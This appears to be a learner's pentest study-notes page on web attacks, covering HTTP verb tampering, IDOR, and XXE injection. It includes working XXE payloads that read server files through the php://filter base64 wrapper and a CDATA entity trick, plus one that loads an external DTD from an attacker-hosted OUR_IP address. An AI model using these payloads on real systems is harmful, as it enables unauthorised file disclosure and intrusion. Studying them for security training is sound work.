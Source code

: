 # Web Attacks
## HTTP Verb Tampering
- The HTTP protocol works by accepting various HTTP methods as verbs at the beginning of an HTTP request. Depending on the web server configuration, web applications may be scripted to accept certain HTTP methods for their various functionalities and perform a particular action based on the type of the request.
- Verbs include: GET, POST, HEAD, PUT, HEAD, PATCH, OPTIONS, DELETE
- Right click --> change request method in burp
- OPTIONS should send back all allowable verbs
- Some web apps only filter/allow list certain verbs, but HEAD acts very similar to GET but has no response in the body.

## IDOR
- Insecure Direct Object References (IDOR) vulnerabilities are among the most common web vulnerabilities and can significantly impact the vulnerable web application. IDOR vulnerabilities occur when a web application exposes a direct reference to an object, like a file or a database resource, which the end-user can directly control to obtain access to other similar objects. If any user can access any resource due to the lack of a solid access control system, the system is considered to be vulnerable.

- Reminder: Hashes are one way

## Bypassing encoded references
- We might not be able to update/post a users details but can we see them with a GET request?
- In addition to allowing us to view potentially sensitive details, the ability to modify another user's details also enables us to perform several other attacks. One type of attack is modifying a user's email address.
- Another potential attack is placing an XSS payload in the 'about' field, which would get executed once the user visits their Edit profile page, enabling us to attack the user in different ways.

## Intro to XXE
XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions. XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down, which is why it is considered one of the Top 10 Web Security Risks by OWASP.
- Extensible Markup Language (XML)
- XML Document Type Definition (DTD) allows the validation of an XML document against a pre-defined document structure.
- A DTD can be placed in the file, referenced from a file (its stored separately), or accessib le via URL.
- We can sometimes reference external XML entities with trhe SYSTEM keyword. Or we may also use the PUBLIC keyword instead of SYSTEM for loading external resources, which is used with publicly declared entities and standards, such as a language code (lang="en").

## Local file disclosure
- The first step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input.
- **Note**: Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an online tool. If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.
- the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity. If a file contains some of XML's special characters (e.g. </>/&), it would break the external entity reference and not be used for the reference. Furthermore, we cannot read any binary data, as it would also not conform to the XML format.

Luckily, PHP provides wrapper filters that allow us to base64 encode certain resources 'including files', in which case the final base64 output should not break the XML format. To do so, instead of using file:// as our reference, we will use PHP's php://filter/ wrapper. With this filter, we can specify the convert.base64-encode encoder as our filter, and then add an input resource (e.g. resource=index.php), as follows:
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
To output data that does not conform to the XML format, we can wrap the content of the external file reference with a CDATA tag (e.g. <![CDATA[ FILE_CONTENT ]]>). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters. fancy way of defining it in the DTD:
```
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
Reference an external DTD (one you're locally hosting): 
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```
**Note**: In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.

